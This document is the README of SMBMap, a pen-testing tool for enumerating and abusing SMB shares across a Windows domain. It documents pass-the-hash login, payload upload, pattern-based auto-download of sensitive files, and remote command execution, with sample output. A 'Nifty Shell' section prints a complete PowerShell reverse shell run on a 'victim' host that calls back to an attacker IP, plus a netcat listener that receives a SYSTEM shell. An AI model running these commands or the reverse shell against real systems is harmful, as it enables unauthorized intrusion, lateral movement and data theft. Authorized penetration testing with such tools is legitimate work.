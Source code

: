 SMBMap allows users to enumerate samba share drives across an entire domain.  List share drives, drive permissions, share contents, upload/download functionality, file name auto-download pattern matching, and even execute remote commands.  This tool was designed with pen testing in mind, and is intended to simplify searching for potentially sensitive data across large networks.

DOWNLOAD HERE: https://smbmap.googlecode.com/git/smbmap.py

Some of the features have not been thoroughly tested, so changes will be forth coming as bugs are found.  I only really find and fix the bugs while I'm on engagements, so progress is a bit slow.  Any feedback or bug reports would be appreciated.  It's definitely rough around the edges, but I'm just trying to pack in features at the moment. Version 2.0 should clean up the code a lot….whenever that actually happens ;).  Thanks for checking it out!!  Planned features include --update (so you don't have to visit this page), actual logging, shadow copying ntds.dit automation (Win7 and up only..for now), other things….

You'll need Impacket to use this tool:

https://code.google.com/p/impacket/

## Features: ##

  * Pass-the-hash Support

  * File upload/download/delete

  * Permission enumeration (writable share, meet Metasploit)

  * Remote Command Execution


```
SMBMap - Samba Share Enumerator
Shawn Evans - Shawn.Evans@gmail.com

$ python smbmap.py -u jsmith -p password1 -d workgroup -h 192.168.0.1
$ python smbmap.py -u jsmith -p 'aad3b435b51404eeaad3b435b51404ee:da76f2c4c96028b7a6111aef4a50a94d' -h 172.16.0.20
$ cat smb_ip_list.txt | python smbmap.py -u jsmith -p password1 -d workgroup
$ python smbmap.py -u 'apadmin' -p 'asdf1234!' -d ACME -h 10.1.3.30 -x 'net group "Domain Admins" /domain'

-P		port (default 445), ex 139
-h		Hostname or IP
-u		Username, if omitted null session assumed
-p		Password or NTLM hash
-s		Share to use for smbexec command output (default C$), ex 'C$'
-x		Execute a command, ex. 'ipconfig /r'
-d		Domain name (default WORKGROUP)
-R		Recursively list dirs, and files (no share\path lists ALL shares), ex. 'C$\Finance'
-A		Define a file name pattern (regex) that auto downloads a file on a match (requires -R or -r), not case sensitive, ex "(web|global).(asax|config)"
-r		List contents of directory, default is to list root of all shares, ex. -r 'c$\Documents and Settings\Administrator\Documents'
-F		File content filter, -f "password" (feature pending)
-D		Download path, ex. 'C$\temp\passwords.txt'
--upload-src	File upload source, ex '/temp/payload.exe'  (note that this requires --upload-dst for a destiation share)
--upload-dst	Upload destination on remote host, ex 'C$\temp\payload.exe'
--del		Delete a remote file, ex. 'C$\temp\msf.exe'
--skip		Skip delete file confirmation prompt

```

## Sample Output: ##
```
$ cat smb-hosts.txt | python smbmap.py -u jsmith -p 'R33nisP!nckl3' -d ABC
[+] Reading from stdin
[+] Finding open SMB ports....
[+] User SMB session establishd...
[+] IP: 192.168.0.5:445	Name: unkown                                            
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	READ, WRITE
	C$                                                	READ, WRITE
	IPC$                                              	NO ACCESS
	TMPSHARE                                          	READ, WRITE
[+] User SMB session establishd...
[+] IP: 192.168.2.50:445	Name: unkown                                            
	Disk                                                  	Permissions
	----                                                  	-----------
	IPC$                                              	NO ACCESS
	print$                                            	READ, WRITE
	My Dirs                                           	NO ACCESS
	WWWROOT_OLD                                        	NO ACCESS
	ADMIN$                                            	READ, WRITE
	C$                                                	READ, WRITE

$ python smbmap.py -u ariley -p 'P@$$w0rd1234!' -d ABC -x 'net group "Domain Admins" /domain' -h 192.168.2.50
[+] Finding open SMB ports....
[+] User SMB session establishd...
[+] IP: 192.168.2.50:445	Name: unkown                                            
Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
abcadmin                  
The command completed successfully.
```

## Nifty Shell: ##

**Run Powershell Script on Victim SMB Host**
```
$ python smbmap.py -u jsmith -p 'R33nisP!nckle' -d ABC -h 192.168.2.50 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.153""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' 
[+] Finding open SMB ports....
[+] User SMB session establishd...
[+] IP: 192.168.2.50:445	Name: unkown                                            
[!] Error encountered, sharing violation, unable to retrieve output
```

**Attackers Netcat Listener**
```
$ nc -l 4445
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
 nt authority\system
```
